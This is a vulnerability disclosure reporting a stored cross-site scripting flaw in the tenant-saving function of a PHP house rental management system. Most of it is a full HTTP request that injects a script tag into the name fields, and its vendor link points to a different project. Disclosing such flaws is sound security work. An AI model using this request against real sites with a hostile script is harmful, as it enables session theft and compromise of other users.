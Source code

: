 ### **Best House Rental Management System XSS Vulnerability**

- **Exploit Title**: Best House Rental Management System Project in PHP XSS Vulnerability  
- **Exploit Author**: Yasser Alshammari
- **Vendor Homepage**: [SourceCodester](https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html)  
- **Software Link**: [Download Here](https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+)  
- **Version**: Best House Rental Management System Project in PHP v1.0  
- **Tested On**: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/8.1.12  
- **CVE**: Reported, waiting for CVE number  

---

### **Description**

The `save_tenant` function in `admin_class.php` of the **Best House Rental Management System Project in PHP v1.0** is vulnerable to a stored Cross-Site Scripting (XSS) attack. This occurs because the `firstname` and `lastname` parameters are not properly sanitized, allowing an attacker to inject malicious JavaScript into the application. This script is executed when the tenants' page (`/rental/index.php?page=tenants`) is accessed by any user.

---

### **Payload Used**

```http
POST /rental/ajax.php?action=save_tenant HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------3178982332774785074212688258
Content-Length: 1032
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/rental/index.php?page=tenants
Cookie: PHPSESSID=dknlqepm8oojar1k1bfeioo8gu
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="id"


-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="lastname"

<script>alert('XSS')</script>
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="firstname"

<script>alert('XSS')</script>
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="middlename"

Attacker
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="email"

test@test.com
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="contact"

Attacker
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="house_id"

12
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="date_in"

12
-----------------------------3178982332774785074212688258--
